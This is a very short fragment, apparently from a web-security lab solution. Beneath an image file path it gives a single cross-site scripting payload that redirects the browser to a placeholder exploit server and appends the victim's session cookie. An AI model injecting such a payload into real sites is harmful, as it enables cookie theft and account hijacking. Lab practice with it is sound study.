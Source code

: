
`<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>`


